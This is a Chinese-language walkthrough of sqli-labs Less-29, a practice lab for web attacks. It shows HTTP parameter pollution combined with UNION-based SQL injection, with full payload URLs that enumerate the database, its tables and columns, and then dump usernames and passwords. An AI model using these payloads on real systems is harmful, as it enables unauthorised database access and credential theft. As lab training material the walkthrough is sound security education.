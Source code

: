 ```yaml
---
title: Less - 29
date: 2023-03-16T15:21:59Z
lastmod: 2023-03-16T23:23:37Z
---
```


# Less - 29

---

# 通关教程

---

## 1、判断闭合

---

​![image](assets/image-20230316231139-fekovgn.png)​

感觉跟Less-1一样，打开源码文件夹发现存在其他文件，浏览器尝试如下内容

```http
http://192.168.225.132/sqli-labs/Less-29/login.php?id=1
```

​![image](assets/image-20230316231611-n55e0dx.png)​

ID后面输入id=1&id=2，我们使用的web容器为apache，则会执行id=2，如果为tomcat，则会执行id=1，这里我的web容器为apache，所以会执行id=2

​![image](assets/image-20230316231711-bwxb09u.png)​

---

## 2、查看当前库

---

```http
http://192.168.225.132/sqli-labs/Less-29/login.php?id=1&id=-2' union select 1,2,database()--+
```

​![image](assets/image-20230316231837-mdzqyxf.png)​

---

## 3、查看security库下的所有表

---

```http
http://192.168.225.132/sqli-labs/Less-29/login.php?id=1&id=-2' union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema='security')--+
```

​![image](assets/image-20230316231927-hpv3jfu.png)​

---

## 4、查看users表下的所有字段

---

```http
http://192.168.225.132/sqli-labs/Less-29/login.php?id=1&id=-2' union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name='users')--+
```

​![image](assets/image-20230316232226-nqok6pd.png)​

---

## 5、查看username,password字段的所有值

---

```http
http://192.168.225.132/sqli-labs/Less-29/login.php?id=1&id=-2' union select 1,2,(select group_concat(concat_ws('~',username,password)) from security.users)--+
```

​![image](assets/image-20230316232329-i04byh0.png)​
